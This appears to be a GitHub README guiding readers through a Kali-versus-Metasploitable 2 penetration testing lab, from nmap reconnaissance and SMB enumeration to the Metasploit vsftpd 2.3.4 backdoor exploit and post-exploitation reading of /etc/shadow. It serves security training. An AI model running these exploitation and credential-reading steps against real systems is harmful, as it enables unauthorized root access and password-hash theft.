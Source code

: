 # 🛡️ A Detailed guide to setting up a safe and Real world penetration testing lab.
<p align="center">
  <img src="https://img.shields.io/badge/Lab-Environment-blue?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Attacker-Kali%20Linux-green?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Target-Metasploitable-red?style=for-the-badge" />
  <img src="https://img.shields.io/badge/Status-Active-orange?style=for-the-badge" />
</p>

---

## 🔹 Lab Overview

This lab provides a **safe, isolated, real-world environment** to practice penetration testing techniques from reconnaissance to post-exploitation.

**Lab Components:**

| Machine   | OS             | IP Address       | Role                        |
|----------|----------------|----------------|----------------------------|
| Attacker | Kali Linux     | 192.168.142.128 | Pentester machine          |
| Target   | Metasploitable 2 | 192.168.142.130 | Vulnerable machine         |

**Lab Objective:**  
- Simulate real-world penetration testing scenarios.  
- Gain hands-on experience with scanning, enumeration, exploitation, and reporting.  

## 🔹 Lab Setup

### 1. Requirements

* **Virtualization software:** VirtualBox or VMware
* **Attacker VM:** Kali Linux
* **Target VM:** Metasploitable 2
* **Network isolation:** Internal network or host-only adapter
* **Snapshots:** Take snapshots before starting

### 2. Network Configuration

1. Set VMs to **Host-Only Adapter**:

   * Attacker: 192.168.142.128
   * Target: 192.168.142.130
  (https://github.com/ZeeshanKeyani/Real-world-penetration-testing-environment-in-a-safe-isolated-network./blob/main/img/3-metasploit.JPG)

2. Verify connectivity:

```bash
ping 192.168.142.130
```

**Expected Output:**

```
64 bytes from 192.168.142.130: icmp_seq=1 ttl=64 time=0.123 ms
```

---

## 🔹 Step-by-Step Penetration Testing

### Step 1: Reconnaissance

#### Passive Recon

```bash
whois 192.168.142.130
nslookup 192.168.142.130
```

* Collect IP, domain, and server info.
* No interaction with target.

#### Active Recon

```bash
nmap -sS -Pn 192.168.142.130
nmap -p- -A -T4 192.168.142.130
```

**Example Output:**

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.3.4
22/tcp   open  ssh     OpenSSH 4.7p1
23/tcp   open  telnet
80/tcp   open  http    Apache 2.2.8
139/tcp  open  netbios-ssn Samba smbd 3.X
445/tcp  open  netbios-ssn Samba smbd 3.X
```

---

### Step 2: Enumeration

#### FTP Enumeration

```bash
nc 192.168.142.130 21
```

* Check banner for service version.

```bash
ftp 192.168.142.130
# Attempt anonymous login
```

#### SMB Enumeration

```bash
smbclient -L \\192.168.142.130 -U guest
enum4linux -a 192.168.142.130
```

---

### Step 3: Vulnerability Analysis

* Use **Searchsploit** to identify exploits:

```bash
searchsploit vsftpd 2.3.4
searchsploit samba
```

* Check Metasploit modules:

```bash
msfconsole
search vsftpd
```

---

### Step 4: Exploitation

#### Example: FTP Backdoor

```bash
msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.142.130
exploit
```

#### Verify Access

```bash
whoami
id
```

**Expected Output:**

```
uid=0(root) gid=0(root) groups=0(root)
```

---

### Step 5: Post-Exploitation

* System enumeration:

```bash
uname -a
cat /etc/passwd
ifconfig
```

* Privilege escalation check:

```bash
sudo -l
```

* Dump hashes or sensitive info (for lab purposes only):

```bash
cat /etc/shadow
```


### Step 6: Reporting

* Document all findings.
* Include screenshots and proof-of-concept.

**Report Template:**

| Vulnerability        | Exploit Used          | Impact              | Mitigation                                   |
| -------------------- | --------------------- | ------------------- | -------------------------------------------- |
| FTP Backdoor         | vsftpd 2.3.4          | Remote Shell Access | Upgrade FTP server / Disable anonymous login |
| SMB Misconfiguration | Metasploit smb module | Data Exposure       | Patch Samba / Restrict SMB access            |

---

## 🔹 Recommended Tools

| Tool                   | Purpose                           |
| ---------------------- | --------------------------------- |
| Nmap / Zenmap          | Port scanning & service discovery |
| Netcat                 | Banner grabbing & connectivity    |
| Metasploit             | Exploit development & execution   |
| Nikto / Dirb           | Web vulnerability scanning        |
| Enum4linux / smbclient | Windows/SMB enumeration           |
| Wireshark              | Network traffic analysis          |

---

## 🔹 Best Practices

1. Always **take snapshots** before testing.
2. Use **isolated lab networks**.
3. Document each phase with screenshots and notes.
4. Never attack systems **without permission**.

---

## 🔹 References

* [Metasploitable 2 VM](https://sourceforge.net/projects/metasploitable/)
* [Kali Linux Tools](https://www.kali.org/tools/)
* [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)

---

> ⚠️ **Disclaimer:**
> This lab is for **educational purposes only**. Unauthorized penetration testing is illegal and unethical.

